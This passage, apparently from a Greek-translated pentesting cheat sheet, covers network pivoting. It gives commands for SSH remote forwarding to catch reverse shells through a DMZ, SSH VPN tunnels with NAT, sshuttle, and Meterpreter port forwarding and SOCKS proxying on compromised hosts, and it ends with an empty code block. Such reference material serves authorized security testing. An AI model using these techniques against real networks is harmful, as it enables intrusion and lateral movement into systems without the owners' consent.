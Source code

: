 Αυτό είναι χρήσιμο για να αποκτήσετε αντίστροφες θήκες από εσωτερικούς υπολογιστές μέσω μιας DMZ στον υπολογιστή σας:
```bash
ssh -i dmz_key -R <dmz_internal_ip>:443:0.0.0.0:7000 root@10.129.203.111 -vN
# Now you can send a rev to dmz_internal_ip:443 and capture it in localhost:7000
# Note that port 443 must be open
# Also, remmeber to edit the /etc/ssh/sshd_config file on Ubuntu systems
# and change the line "GatewayPorts no" to "GatewayPorts yes"
# to be able to make ssh listen in non internal interfaces in the victim (443 in this case)
```
### VPN-Tunnel

Χρειάζεστε **root και στις δύο συσκευές** (καθώς πρόκειται να δημιουργήσετε νέες διεπαφές) και η ρύθμιση του sshd πρέπει να επιτρέπει την είσοδο του root:\
`PermitRootLogin yes`\
`PermitTunnel yes`
```bash
ssh root@server -w any:any #This will create Tun interfaces in both devices
ip addr add 1.1.1.2/32 peer 1.1.1.1 dev tun0 #Client side VPN IP
ifconfig tun0 up #Activate the client side network interface
ip addr add 1.1.1.1/32 peer 1.1.1.2 dev tun0 #Server side VPN IP
ifconfig tun0 up #Activate the server side network interface
```
Ενεργοποιήστε την προώθηση στην πλευρά του διακομιστή
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
```
Ορίστε μια νέα διαδρομή στην πλευρά του πελάτη
```
route add -net 10.0.0.0/16 gw 1.1.1.1
```
## SSHUTTLE

Μπορείτε να **tunnel** μέσω **ssh** όλη την **κυκλοφορία** σε ένα **υποδίκτυο** μέσω ενός host.\
Για παράδειγμα, προωθώντας όλη την κυκλοφορία που πηγαίνει στο 10.10.10.0/24
```bash
pip install sshuttle
sshuttle -r user@host 10.10.10.10/24
```
Συνδεθείτε με ένα ιδιωτικό κλειδί
```bash
sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa'
# -D : Daemon mode
```
## Meterpreter

### Port2Port

Τοπική θύρα --> Συμβιβασμένος υπολογιστής (ενεργή συνεδρία) --> Τρίτο\_κουτί:Θύρα
```bash
# Inside a meterpreter session
portfwd add -l <attacker_port> -p <Remote_port> -r <Remote_host>
```
### SOCKS
```bash
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 255.255.255.0 8)
use auxiliary/server/socks_proxy
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```
Άλλος τρόπος:
```bash
```